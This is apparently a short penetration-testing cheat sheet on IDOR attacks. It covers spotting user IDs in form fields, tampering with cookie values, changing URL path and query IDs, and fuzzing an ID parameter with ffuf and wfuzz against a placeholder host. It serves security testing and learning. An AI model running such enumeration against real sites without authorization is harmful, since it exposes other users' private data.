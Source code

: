 ```yaml
---
title: Insecure Direct Object References (IDOR) Attack
desc: 
tags: [Burp, Ffuf, Hydra, IDOR, Web, Wfuzz]
alts: [API-Pentesting]
render_with_liquid: false
---
```


## 1. Find the Vulnerabilities from HTML Source Code

1. **Check the Names and Values of Input Form**

    ```html
    <input name="user_id" value="8" >
    ```

2. **Try What Happens When You Change the Cookie Value**

    ```
    Cookie: user_id=12
    ```

<br />

## 2. Change URL Parameters

1. **Manual Changing**

    ```sh
    /user?id=1
    /user?id=2

    /admin/posts/1
    /john/posts/1

    /static/1.txt
    /static/2.txt
    ```

2. **Fuzzing with Tools**

    ```sh
    ffuf -w numbers.txt -u http://vulnerable.com/user?id=FUZZ
    # -fs: Filter HTTP response size
    ffuf -w numbers.txt -u http://vulnerable.com/user?id=FUZZ -fs 439

    wfuzz -z file,./numbers.txt http://vulnerable.com/user?id=FUZZ
    ```
